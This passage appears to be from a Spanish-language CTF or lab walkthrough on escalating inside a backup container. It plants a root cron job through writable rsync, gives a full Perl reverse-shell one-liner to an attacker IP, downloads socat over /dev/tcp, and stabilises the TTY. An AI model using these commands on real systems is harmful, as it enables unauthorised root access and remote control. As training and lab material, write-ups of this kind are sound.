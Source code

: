         exec 3<>/dev/tcp/${HOST}/$PORT
        echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
        (while read line; do
        [[ "$line" == $'\r' ]] && break
        done && cat) <&3
        exec 3>&-
    }
    ```

1. Desde nuestra maquina de atacante lanzamos un servidor http con python hacia el puerto 2222

    ```bash
    python -m http.server 2222
    ```

1. Con la funccion __curl descargamos el socat

    ```bash
    __curl http://172.19.0.4:1111/socat > socat
    ```

Ahora vamos a usar el rsync para modificar los ficheros necesarios para ejecutar codigo desde una tarea cron.

```bash
rsync rsync://172.20.0.3/src/etc/cron.d
echo '* * * * * root sh /tmp/reverse.sh' > reverse
rsync reverse rsync://172.20.0.3/src/etc/cron.d/reverse
```

Ahora vamos a crear el fichero reverse.sh

```bash
perl -e 'use Socket;$i="172.20.0.2";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Lo enviamos a la maquina www con base64 y lo enviamos con rsync.

```bash
rsync reverse.sh rsync://172.20.0.3/src/tmp/reverse.sh
```

y con socat nos ponemos en escucha por el puerto 7777

```bash
./socat TCP-LISTEN:7777 stdout
```

Esperamos un poco y ganamos acceso al contenedor backup.

#### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```
